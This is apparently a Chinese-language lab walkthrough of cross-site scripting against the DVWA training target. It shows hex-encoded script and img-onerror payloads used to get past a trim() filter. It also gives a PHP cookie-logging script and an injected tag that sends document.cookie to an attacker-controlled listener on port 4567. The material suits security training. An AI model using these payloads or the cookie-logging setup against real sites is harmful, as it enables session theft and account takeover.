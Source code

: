 由于对输入内容没有任何过滤，因此可以注入任意的代码

尝试以下代码，发现不行

```js
<script>alert('document.cookie')</script>
```

![image-20221202095848650](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071442812.png)

因为使用了`trim(string,charlist)`，所以并没有cookie弹出，将字符串**编码**即可

```js
<script>alert(0x646F63756D656E742E636F6F6B6965)</script>
<img src=5 onerror=alert(0x646F63756D656E742E636F6F6B6965)>
```

![image-20221202121119499](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071442558.png)

**在另一台攻击机上获取靶机的cookie** 

1. 新建一台攻击机，端口设为4567

   ```bash
   docker run --rm -it -p 4567:80 vulnerables/web-dvwa
   ```

2. 在该攻击机指定路径写入脚本cookie.php

   > 该脚本能够获取cookie并存入`./cookie.txt` 

   ```php
   <?php
       $cookie = $_GET['cookie'];
       $ip = getenv('REMOTE_ADDR');
       $time = date('Y-m-d g:i:s');
       $ref =getenv('HTTP_REFERER');
       $fp = fopen('cookie.txt','a');
       fwrite($fp," IP: " .$ip. "\r\n Time: " .$time. "\r\n Referer: " .$ref. "\r\n $cookie: " .$cookie. "\r\n-------------\r\n");
       fclose($fp);
   ?>
   ```

   ```bash
   docker cp D:\cookie.php 4a8:/var/www/html
   ```

3. 发起攻击，在靶场写入

   ```html
   <script>document.write('<img src="http://127.0.0.1:4567/cookie.php?cookie=' + document.cookie + '" width=0 height=0 border=0 />');</script>
   ```

4. 回到攻击机下查看`/var/www/html/cookie.txt`

   ```bash
   cat /var/www/html/cookie.txt
   ```

